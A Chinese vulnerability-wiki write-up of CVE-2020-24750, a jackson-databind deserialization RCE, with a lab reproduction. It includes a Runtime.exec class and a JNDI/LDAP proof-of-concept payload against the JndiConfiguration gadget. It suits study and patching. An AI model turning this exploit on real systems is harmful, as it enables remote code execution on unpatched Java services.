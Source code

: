 （CVE-2020-24750）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

com.pastdev.httpcomponents.configuration.JndiConfiguration类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 利用条件

-   开启enableDefaultTyping()
-   使用了com.pastdev.httpcomponents.configuration.JndiConfiguration第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4

jackson-databind before 2.8.11.6

jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

> 相关信息

`https://github.com/FasterXML/jackson-databind/issues/2798`

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

> 相关类确定：

`https://github.com/kishorkunal-raj/jackson-databind/blob/5f4148e6c083529a2d12c6dc986b07a03850f503/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java#L198`

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId27.png)

之后在源代码中定位到`com.pastdev.httpcomponents.configuration.JndiConfiguration`类，发现一处可疑的JNDI注入，我们只需要构造参数即可实现，非常简单：

![6.jpeg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId28.jpg)

整个利用链如下所示：

    mapper.readValue
        ->JndiConfiguration
            ->lookup

### 漏洞复现

#### 环境搭建

> pom.xml

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/com.pastdev.httpcomponents/configuration -->
        <dependency>
          <groupId>com.pastdev.httpcomponents</groupId>
          <artifactId>configuration</artifactId>
          <version>0.1.3</version>
        </dependency>

          <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

#### 漏洞复现

这里使用LDAP的利用方式进行漏洞的利用演示，RMI的方式也是类似的，且RMI比LDAP要对JDK版本有很大的局限性\~LDAP利用方式：jdk版本：JDK
11.0.1、8u191、7u201、6u211之前，笔者这里采用JDK 1.8.0\_181

##### 编译Exploit.java

> Exploit.java

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

编译Exploit.java文件：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId33.png)

之后在本地搭建HTTP服务并将Exploit.class放置在web目录下，之后通过marshalsec来启动一个LDAP服务使用marshalsec来启动一个LDAP服务：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId34.png)

##### 执行漏洞POC

> Poc.java

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"com.pastdev.httpcomponents.configuration.JndiConfiguration\",\"ldap://127.0.0.1:1099/Exploit\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

![3.jpeg](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId36.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8210\#toc-2
